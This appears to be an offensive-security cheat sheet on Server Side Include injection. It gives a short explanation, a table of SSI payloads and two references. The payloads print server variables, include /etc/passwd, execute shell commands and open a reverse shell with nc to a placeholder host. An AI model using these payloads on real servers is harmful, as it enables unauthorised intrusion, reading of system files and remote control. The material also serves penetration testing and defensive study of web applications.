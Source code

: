 # Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.


## Summary

* [Methodology](#methodology)
* [References](#references)


## Methodology

SSI Injection occurs when an attacker can input Server Side Include directives into a web application. SSIs are directives that can include files, execute commands, or print environment variables/attributes. If user input is not properly sanitized within an SSI context, this input can be used to manipulate server-side behavior and access sensitive information or execute commands.

| Description             | Payload |
|-------------------------|---------|
| Print a date            | `<!--#echo var="DATE_LOCAL" -->` |
| Print all the variables | `<!--#printenv -->` |
| Include a file          | `<!--#include file="/etc/passwd" -->` |
| Execute commands        | `<!--#exec cmd="ls" -->` |
| Doing a reverse shell   | `<!--#exec cmd="mkfifo /tmp/foo;nc IP PORT 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` |


## References

* [Exploiting Server Side Include Injection - n00py - August 15, 2017](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)
* [Server-Side Includes (SSI) Injection - Weilin Zhong, Nsrav - December 4, 2019](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
